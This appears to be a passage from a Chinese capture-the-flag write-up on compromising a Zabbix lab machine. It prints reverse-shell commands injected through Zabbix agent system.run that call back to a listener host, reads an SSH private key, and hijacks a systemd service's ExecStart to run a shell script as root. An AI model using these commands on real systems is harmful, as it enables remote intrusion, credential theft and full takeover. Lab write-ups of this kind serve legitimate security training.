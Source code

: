 ```
成功连接
---
echo system.run[ /bin/sh -i >& /dev/tcp/10.10.14.10/1235 0>&1 ] | nc 172.17.0.1 10050

echo system.run[ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1235 >/tmp/f ] | nc 172.17.0.1 10050
成功反弹172.10.0.1的/bin/sh到本地
连上了是连上了，但总是会掉线
---
本机监听nc -lnvp 1234
echo "system.run[(/bin/bash -c 'bash -i >/dev/tcp/10.10.14.10/1234 0<&1 2>&1 &')]" | nc 172.17.0.1 10050
连上了
```
## 提权

cd /home/zapper/utils

通过backup.sh得到zapper用户密码。切换用户。

cat /home/zapper/.ssh/id_rsa

获得ssh密钥。通过ssh -i id_rsa 用户名@IP

登陆后， /home/zapper/utils/zabbix-service具有suid权限

之前文章讨论过很多suid的东西了，这里就不多说了。

在/tmp目录添加shell，命令如下

```
echo '#!/bin/bash ' > /tmp/shell.sh
echo 'bash -i >/dev/tcp/10.10.14.10/443 0<&1' >> /tmp/shell.sh
chmod a+x /tmp/shell.sh
```
在zapper配置中修改重启后运行的脚本，如果以下命令报错，可以手动修改该行。目的是重启程序，同时执行/tmp/shell.sh

```
sed -i 's/ExecStart=\/root\/scripts\/purge-backups.sh/ExecStart=\/tmp\/shell.sh/' /etc/systemd/system/purge-backups.service

cd /home/zapper/utils;./zabbix-service
stop

nc -lnvp 443开启监听

再次运行，start开启该服务，即可得到root权限
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/4.PNG)




## 存在的漏洞
```
guest匿名登陆+信息泄露
弱密码
web api可访问，用来爆破登陆口令
zabbix-agentweb版本漏洞-远程代码执行
zabbix-server system.run远程代码执行
suid提权
```
## 总结
